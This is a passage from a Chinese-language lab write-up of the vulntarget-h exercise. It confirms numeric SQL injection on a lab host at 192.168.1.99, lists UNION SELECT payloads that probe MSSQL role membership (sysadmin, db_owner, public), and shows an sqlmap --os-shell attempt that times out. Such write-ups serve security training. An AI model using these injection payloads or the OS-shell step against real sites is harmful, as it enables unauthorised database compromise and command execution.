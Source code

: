 + 判断该网站是否存在SQL注入。存在数字型注入。

> http://192.168.1.99/?user_id=1%20and%201=2

![Screenshot_2022-06-30_05-54-25.png](../images/vulntarget-h%20write-up/Screenshot_2022-06-30_05-54-25.png)

+ 获取当前用户信息。

```bash
# 判断是否是SA权限
?user_id=-1%20union%20select%200,1,2,is_srvrolemember('sysadmin'),4
# 判断是否是db_owner权限
?user_id=-1%20union%20select%200,1,2,is_member('db_owner'),4
# 判断是否是public权限
?user_id=-1%20union%20select%200,1,2,is_srvrolemember('public'),4
```

+ 接下来使用`sqlmap`尝试是否能获取shell。但是无法反弹shell应该是被杀毒程序拦截。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap "http://192.168.1.99/?user_id=1" --os-shell
        ___
       __H__                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:05:41 /2022-06-30/

[06:05:42] [INFO] resuming back-end DBMS 'microsoft sql server' 
...
[06:09:00] [CRITICAL] connection timed out to the target URL

[*] ending @ 06:09:00 /2022-06-30/
```
